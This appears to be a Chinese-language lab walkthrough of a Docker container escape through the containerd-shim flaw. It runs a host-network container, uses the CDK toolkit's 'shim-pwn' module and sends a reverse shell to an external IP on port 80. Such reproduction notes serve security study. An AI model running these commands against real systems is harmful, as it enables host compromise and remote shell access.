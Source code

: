 ```bash
```
通过--net=host 作为启动参数来运行一个容器
```bash
sudo docker run -itd --net=host ubuntu:18.04 /bin/bash
```
![image.png](https://cdn.nlark.com/yuque/0/2022/png/21457074/1666582513837-10643d8f-2b39-47fd-ad7e-b7e3849d213c.png#averageHue=%2315100b&clientId=u3260bc43-055a-4&crop=0&crop=0&crop=1&crop=1&errorMessage=unknown%20error&from=paste&height=33&id=ubd956fb3&margin=%5Bobject%20Object%5D&name=image.png&originHeight=49&originWidth=549&originalType=binary&ratio=1&rotation=0&showTitle=false&size=5014&status=error&style=none&taskId=u88facc91-c6f4-4eeb-987b-5c1b636c2c1&title=&width=366)
查看当前运行中的容器，记下id 85022e12e612
```bash
docker ps -a
```
![image.png](https://cdn.nlark.com/yuque/0/2022/png/21457074/1666582548203-e3e7255a-1289-4e8e-8dc5-1f412197d4a7.png#averageHue=%23070504&clientId=u3260bc43-055a-4&crop=0&crop=0&crop=1&crop=1&errorMessage=unknown%20error&from=paste&height=47&id=u97e6e63c&margin=%5Bobject%20Object%5D&name=image.png&originHeight=71&originWidth=927&originalType=binary&ratio=1&rotation=0&showTitle=false&size=6432&status=error&style=none&taskId=ue5db9546-e730-42fb-bec4-6c056497eee&title=&width=618)
#### 下载EXP
[https://github.com/cdk-team/CDK/releases/tag/0.1.6](https://github.com/cdk-team/CDK/releases/tag/0.1.6)
![image.png](https://cdn.nlark.com/yuque/0/2022/png/21457074/1666582737561-d715847c-ffe8-4119-b1f1-8dc586256c69.png#averageHue=%23fefefe&clientId=u3260bc43-055a-4&crop=0&crop=0&crop=1&crop=1&errorMessage=unknown%20error&from=paste&height=411&id=u1f09240f&margin=%5Bobject%20Object%5D&name=image.png&originHeight=617&originWidth=1797&originalType=binary&ratio=1&rotation=0&showTitle=false&size=63955&status=error&style=none&taskId=u7728a210-46a7-4201-90c6-b061a9faea5&title=&width=1198)
将下载好的压缩包解压，然后copy进docker容器
![image.png](https://cdn.nlark.com/yuque/0/2022/png/21457074/1666583059961-9ead9b2b-fab8-4a3e-9493-9fa043d51621.png#averageHue=%230c0806&clientId=u3260bc43-055a-4&crop=0&crop=0&crop=1&crop=1&errorMessage=unknown%20error&from=paste&height=132&id=u3c580d18&margin=%5Bobject%20Object%5D&name=image.png&originHeight=198&originWidth=480&originalType=binary&ratio=1&rotation=0&showTitle=false&size=14446&status=error&style=none&taskId=ue475dd63-3b9a-447f-9d1e-aaf18a63450&title=&width=320)
#### 执行EXP
进入容器bash
在容器内执行exp，攻击机设置监听
```bash
docker exec -it 85022 /bin/bash

./cdk_linux_amd64 run shim-pwn 43.142.177.224 80
```
#### 逃逸成功
成功完成逃逸获得宿主机的shell
![image.png](https://cdn.nlark.com/yuque/0/2022/png/21457074/1666582992940-91545abe-1486-4236-94f3-581d1acd36e2.png#averageHue=%23161211&clientId=u3260bc43-055a-4&crop=0&crop=0&crop=1&crop=1&errorMessage=unknown%20error&from=paste&height=387&id=u63709167&margin=%5Bobject%20Object%5D&name=image.png&originHeight=581&originWidth=1018&originalType=binary&ratio=1&rotation=0&showTitle=false&size=79029&status=error&style=none&taskId=u9ed0165f-0ef6-449b-aeee-f7f1c7a7a22&title=&width=678.6666666666666)
